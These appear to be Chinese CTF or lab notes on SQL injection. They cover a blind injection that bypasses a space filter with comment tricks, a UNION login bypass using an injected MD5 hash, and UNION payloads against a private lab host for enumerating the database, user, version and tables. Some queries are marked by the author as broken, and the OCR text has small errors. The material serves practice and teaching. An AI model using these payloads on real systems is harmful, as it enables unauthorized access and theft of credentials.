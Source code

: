     使用username=admin’#&password=123456,页面返回密码错误，说明后台没有对#和’进行过滤。
    使用username=admin’ or 1=1#&password=123456，页面返回用户名错误，上面后台对admin’ or 1=1#中的部分内容进行了过滤。过滤的内容有可能是or也有可能是空格。
    使用username=user’//or//1=1#&password=123456，页面返回密码错误，说明输入的SQL语句能够被执行，这也表明后台仅仅是过滤了空格。
    总结，username存在sql注入，同时仅仅只是过滤了空格，那么就是一个盲注了

    整个PoC就是一个基于错误的盲注的步骤了，具体的方法可以参考文章。

    查找表，username=user’//or//exists(select////from/*/admin)#&password=123456,页面返回密码错误，那么就说明在数据库中存在admin表
    查找字段username=user’//or//exists(select//username,password//from/**/admin)#&password=123456，页面返回密码错误，说明在admin表中存在username和password字段。
    username=user’//or//exists(select//count()//from/*/admin)#&password=123456，页面返回密码错误，说明在admin表中仅仅只存在一条记录，接下来就好办了
    得到password长度，username=user’//or//(select//length(password)//from/**/admin)>10#&password=123456，通过二分试探法，最终发现password的字段长度是32位，说明可能采用的是md5的方式来进行加密的。
    在确定了password的长度之后，接下来就是利用Python来进行爆破了。

    username=user'/**/or/**/exists(select/**/username,password/**/from/**/admin)#&password=123456

方法2, 
username=any'/**/union/**/select/**/'c4ca4238a0b923820dcc509a6f75849b'#&password=1

    # c4ca4238a0b923820dcc509a6f75849b 是 1 的md5 (password=1所以用1)
    # username 随意写
### 常用语句

where id = 1 and 1=1

where id = 1 and 1=2

1有结果，2没结果，上面两句确定数据库是否执行。

select * from user where id = 1 and 1=1 union select flag from flag, union需要前后列一样。

使用orderby 看几次没结果确定列数。

    union select 1,2,3          ---是列数
    http://192.168.100.111/web/web15/?id=1 Order by 3  , 确定了是3列。
    http://192.168.100.111/web/web15/?id=1 Order by 4  , 没有结果。
    
    前面没结果时显示后面的结果。用-1 或者 and 1=2
    http://192.168.100.111/web/web15/?id=-1 Union Select 1,2,3
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),2,3     --查询库名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),3     --查询用户名
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    http://192.168.100.111/web/web15/?id=-1 Union Select database(),user(),version()     --查询数据库版本
    INFORMATION_SCHEMA 数据库保存 库，表的信息。
      SCHEMATA 库名
      TABLES  有两列，一列所有库，二列所有库的所有表。
      COLUMNS 全部库的表的列
    
    --有问题 http://192.168.100.111/web/web15/?id=-1 Union Select TABLE_NAME,2,3 where table_schema = database()     --查询数据库表名
    --有问题 http://192.168.100.111/web/web15/?id=-1 UNION SELECT TABLE_NAME,2,3 FROM INFORMATION_SCHEMA WHERE TABLE_SCHEMA = DATABASE() 
